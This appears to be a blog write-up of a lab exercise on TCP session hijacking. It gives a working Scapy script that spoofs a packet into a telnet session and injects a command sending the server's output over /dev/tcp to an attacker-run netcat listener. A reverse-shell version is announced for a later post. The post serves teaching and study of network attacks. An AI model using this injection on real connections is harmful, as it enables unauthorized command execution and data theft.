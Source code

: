+++
title = "TCP Attack Lab 2 - Hijack"
date = "2023-04-30"
description = "Hijacking a TCP connection."

tags = ["network","security","writeups",]
+++


We hijack a TCP connection.

In the first part of this series, we conducted a TCP Reset attack on a `telnet` connection between two users on the same LAN as a malicious actor.

In this second installment, we will hijack the `telnet` connection and execute an arbitrary command.


# Setup

The set up is the same as the [previous post](/blog/content/posts/tcp-attack-lab).

 
# Hijacking a `telnet` Connection

Following these steps will hijack a TCP connection between User 1 as the client and User 2 as the server. We will have the server execute an arbitrary command on our behalf.

First, I open Wireshark and monitor the LAN interface. I select the bridge interface starting with "br-". The characters following may change if you stop and start the containers in a separate occurrence.

Then, I use `telnet` to connect from User 1 to User 2.

!["wireshark initial screen capture"](/blog/images/tcp-hijacking/wireshark-init.png)

Select the bridge interface.

---

Logging in to the `telnet` server (Remember: User 2) from the client generates network traffic that we will use to construct the hijack packet. 

!["telnet connection"](/blog/images/tcp-hijacking/telnet-init.png)

The telnet connection.

---

The last TCP packet sent from User 1 to User 2 will inform the source port, sequence, and acknowledgement numbers used in the hijack packet we will spoof from the attacker to the server.

!["wireshark screen capture"](/blog/images/tcp-hijacking/wireshark-data.png)

Using Wireshark to construct our hijack packet.

---


## Brief: `netcat`

In order to see the output of the command, we will set up a TCP server using `netcat`. 

!["netcat init"](/blog/images/tcp-hijacking/netcat-init.png)

Setting up a TCP server using netcat to see the output of our hijack attack.

---


# Running the exploit

The following code will send our hijack packet:

```python
import argparse
from scapy.all import *

def spoof_hijack_packet(src_port, seq_num, ack_num):
	user1_ip = "10.9.0.6"
	user2_ip = "10.9.0.7"

	user1_port = src_port
	user2_port = 23

	ip = IP(src=user1_ip, dst=user2_ip)
	tcp = TCP(sport=user1_port, dport=user2_port, flags="A", seq=seq_num, ack=ack_num)
	data = "\r hostname > /dev/tcp/10.9.0.1/9090 \r"

	pkt = ip/tcp/data

	print("SENDING HIJACK PACKET........")
	send(pkt)

if __name__ == "__main__":
	parser = argparse.ArgumentParser()
	parser.add_argument("-p", "--src_port", type=int, help="source port", required=True)
	parser.add_argument("-s", "--seq", type=int, help="last sequence number", required=True)
	parser.add_argument("-a", "--ack", type=int, help="last acknowledgement number", required=True)

	args = parser.parse_args()

	spoof_hijack_packet(args.src_port, args.seq, args.ack)
```

For convenience, I designed the program to take the source port number, sequence number, and acknowledgement number as arguments. I invoke it as follows with the data gathered from Wireshark.

!["attack"](/blog/images/tcp-hijacking/python-attack.png)

Running the attack program with arguments for source port, sequence, and acknowledgement numbers.

---

The `netcat` TCP server we established on port 9090 displays the output from the `hostname` command run on the server. 

!["netcat after"](/blog/images/tcp-hijacking/netcat-after.png)

The TCP server displays the hostname of the server.

---

Which we can verify matches User 2's hostname. 

!["result"](/blog/images/tcp-hijacking/hostname.png)

Hostname of the telnet server, User 2

---

If you were to go back to the `telnet` connection, we see that the connection no longer takes input. This is because the machines have detected the funny business from our spoofed packet.


# That's it!

We explored the TCP protocol in greater depth, hijacking a TCP connection between two users on the same LAN as the attacker and executing an arbitrary command.

In the final installment of this series, we will go a step further and execute a reverse shell using the TCP hijacking technique presented here.


### _Updated: April 30, 2023_